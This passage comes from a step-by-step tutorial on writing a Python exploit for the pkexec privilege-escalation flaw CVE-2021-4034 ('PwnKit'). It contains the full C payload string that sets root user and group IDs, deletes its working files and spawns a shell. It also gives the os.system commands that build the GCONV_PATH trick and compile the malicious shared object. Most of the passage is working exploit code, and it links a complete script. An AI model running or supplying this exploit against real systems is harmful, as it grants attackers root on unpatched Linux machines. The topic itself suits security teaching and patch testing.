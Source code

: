 
## Step 2

Now that our template has been complete, let's go ahead and form our payload. The payload we will be used is actually a Python string made up of C/C++ code that will be injected into pwnkit.c file and then compile into a share object and when running the `pkexec` command, this code will be executed! I think it's best if we just move onto the next section to make it a little bit easier.

Since we've already covered the template, just assume all of the code we write will be inside of the `def exploit(self)` method and before the `if __name__ == '__main__'` declaration. There is a final script with the entire codebase on my GitHub [here](https://github.com/azazelm3dj3d/CVE-2021-4034) and at the end of this post.

I won't go into too much detail here, but just know we are creating a string in Python, which saves a bunch of important code to exploit our system.

```python
payload = """
    #include <stdio.h>\n
    #include <stdlib.h>\n
    #include <unistd.h>\n\n

    void gconv() {}\n

    void gconv_init() {\n
        setuid(0); setgid(0);\n
        seteuid(0); setegid(0);\n

        system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n

        exit(0);\n
    }
        """
```

## Step 3

Time to use our first module: `os`. As you'll notice, we are only calling the sub-module of the `os` called `system`. All you need to know is anything between `os.system("Anything between here")`, basically runs as a process on your system, so if you've ever used Linux and you run the `whoami` command, it returns the logged in user, and we can do this in Python by using `os.system("whoami")`.

The `with open(file_name, "w")` section just opens a file and we specify the "w" so we can write to the file (this requires write permissions).

All the commands within `os.system()` are bit more complicated than your average commands, but just know you are creating multiple files and directories, assigning permissions, and writing to multiple files. The only real unique section is in the final command: `gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC`; this basically compiles our pwnkit.c code and pushes it to a shared object with some special settings.

```python
os.system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'")

os.system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules")

with open("pwnkit/pwnkit.c", "w") as f:
    f.write(payload)

os.system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC")
```
